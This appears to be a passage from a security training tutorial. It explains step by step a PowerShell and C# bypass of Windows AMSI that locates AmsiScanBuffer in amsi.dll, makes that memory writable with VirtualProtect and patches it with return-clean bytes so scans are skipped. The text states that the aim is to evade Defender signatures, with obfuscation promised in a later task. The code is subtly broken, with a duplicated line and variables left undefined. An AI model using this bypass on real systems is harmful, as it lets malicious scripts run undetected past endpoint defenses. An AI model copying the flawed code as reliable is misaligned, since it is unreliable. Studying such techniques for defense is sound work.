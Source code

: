 

```
The first section of code lines 3 - 10 will use C# to call-in functions from Kernel32 to identify where amsi.dll has been loaded.

[DllImport(`"kernel32`")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName); 

[DllImport(`"kernel32`")]
public static extern IntPtr GetModuleHandle(string lpModuleName);

[DllImport(`"kernel32`")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

Once the C# functions are called in, the code will use Add-type to load the C# and identify the AmsiScanBuffer string in lines 13 - 16. This string can be used to determine where amsi.dll has been loaded and the address location using GetProcAddress.

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$ABSD = 'AmsiS'+'canBuffer';
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);

The next section of code lines 17 - 23 will modify memory permissions and patch amsi.dll to return a specified value.

[UInt32]$Size = 0x5;
[UInt32]$Size = 0x5;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);

At this stage, we should have an AMSI bypass that partially works. Signatures for most AMSI bypasses have been crafted, so this means that AMSI and Defender themselves will catch these bypasses. This means we will need to obfuscate our code a slight bit to evade signatures. AMSI obfuscation will be covered in the next task.
```


